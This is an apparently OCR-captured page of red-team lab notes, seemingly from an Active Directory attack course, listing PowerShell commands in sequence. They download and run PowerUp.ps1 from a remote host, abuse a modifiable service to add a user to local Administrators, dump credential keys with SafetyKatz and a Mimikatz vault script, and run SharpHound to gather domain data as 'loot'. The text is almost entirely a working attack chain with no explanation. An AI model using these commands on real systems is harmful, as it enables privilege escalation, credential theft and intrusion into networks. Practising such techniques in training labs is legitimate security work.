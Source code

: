 
```powershell
Import-Module .\PowerUp.ps1
iex(iwr 'http://172.16.100.48/PowerUp.ps1' -useb)

Invoke-AllChecks
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose

Get-ModifiableService -Verbose

help  Invoke-ServiceAbuse

Invoke-ServiceAbuse -Name SNMPTRAP -UserName "dcorp\student548" -Verbose

net1 localgroup Administrators
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args sekurlsa::evasive-keys exit
```

```powershell
. C:\Users\Public\Invoke-MimiEx-vault.ps1
```

> In a privileged shell

 ```powershell
C:\Users\Public\\Loader.exe -Path C:\Users\Public\\SharpHound.exe -args --collectionmethods Group,GPOLocalGroup,Session,Trusts,ACL,Container,ObjectProps,SPNTargets,CertServices --excludedcs --zipfilename shout
```

> Copy over to A:\loot